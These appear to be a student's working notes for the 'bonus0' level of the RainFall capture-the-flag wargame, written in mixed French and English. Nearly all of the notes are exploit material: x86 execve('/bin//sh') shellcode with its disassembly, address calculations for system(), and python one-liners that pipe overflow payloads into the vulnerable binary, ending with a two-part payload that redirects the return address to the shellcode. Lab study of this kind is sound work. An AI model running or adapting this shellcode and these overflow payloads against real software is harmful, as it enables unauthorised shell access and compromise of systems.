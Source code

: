 system addresse = 0xb7e6b060 = \x60\xb0\xe6\xb7
 + offset = 0xb7e6b060 + 0x40000701 =  0xF7E6B761 = \x61\xb7\xe6\xf7

\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x60\xb0\xe6\xb7\xc9\xc3

strcat = 0x8048390 sans offset



(python -c "print('\x\x\x\x' + 'a'*4092)"; echo $(echo "\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3")) | ./bonus0

(python -c "print('a'*409)"; echo $(python -c "print ('a'*96 + '\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3')")) | ./bonus0


x50
put add	= 0x80484bd

(echo "test un truc la on est pas des putes"; echo $(printf "oui 012345678901234567890123456789\xbd\x84\x04\x08")) | ./bonus0


# random merde 4095 pour remplir le buffer (segfault a 4096) 
# \n pour mettre la 2eme chaine de caractere
python -c "print('a'*4095 + '\n' + 'test')" | ./bonus0

echo "test un truc la on \n est pas des putes"


Symbol "system" is at 0xb7e6b060 in a file compiled without debugging.

0xb7e6b060 = \x60\xb0\xe60\xb7 - 0x77d8595f = F7F50761 = \x61\x07\xf5\xf7

python -c "print('a'*4095 + '\n' + '\x61\x07\xf5\xf7')" | ./bonus0

# 2eme chaine segfault a > 16 octets 

python -c "print('a'*4095 + '\n' + 'a'*12 + '\x61\x07\xf5\xf7')" | ./bonus0



#function call sh
\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x29\xc0\xd3\xaf\xc9\xc3

python -c "print('a'*20 + '\n' + 'a'*(4969 - 21) + )" | ./bonus0


\x26\xf7\xff\xbf debut de notre chaine de caractere


https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/ # creation d'un autre shellcode
https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html
https://defuse.ca/online-x86-assembler.htm#disassembly2

'\x68\x73\x2f\x2f\x6e\x69\x62\x2f'  = /bin//sh in reverse order 
or can write : '\x68' + '//sh' + '\x68' + '/bin' (68 for push)
(on ecrit dans la stack pour use le moins de carac possible)


"\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
'\x6a\x0b\x58\x31\xf6\x56\x68' + '//sh' + '\x68' + '/bin' +'\x89\xe3\x31\xc9\x89\xca\xcd\x80'


0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  31 f6                   xor    esi,esi
5:  56                      push   esi
6:  68 2f 2f 73 68          push   0x68732f2f
b:  68 2f 62 69 6e          push   0x6e69622f
10: 89 e3                   mov    ebx,esp
12: 31 c9                   xor    ecx,ecx
14: 89 ca                   mov    edx,ecx
16: cd 80                   int    0x80 

eip need to go = 0xBffff726 = \x26\xf7\xff\xbf


bonus0@RainFall:~$ ((python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9' + '\x16' + '\x89\xca\xcd\x80' + 't' * 5 + '\x26\xf7\xff\xbf' + 'c' * 20)"); cat) | ./bonus0
((python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9')"); (python -c "print('\x89\xca\xcd\x80' + 't' * 5 + '\x26\xf7\xff\xbf' + 'c' * 20)"); cat) | ./bonus0

On ecrit notre shellcode dans le buffer qui ne se reset pas, 20 octets pour la premiere chaine (ne pas mettre de /n ou de 0) puis les 4 premier octets de la seconde pour finir notre shellcode, on ajoute 5 octets random pour acceder a l adresse de eip (next instruction de la stack) pour pouvoir jmp au debut de notre shellcode puis x random caractere pour que notre seconde chaine fasse au minimum 20 caracteres (x > 6 pour faire au minimum 20 caracteres && x < (buffermax = 4096 - le nombre deja ecrit))
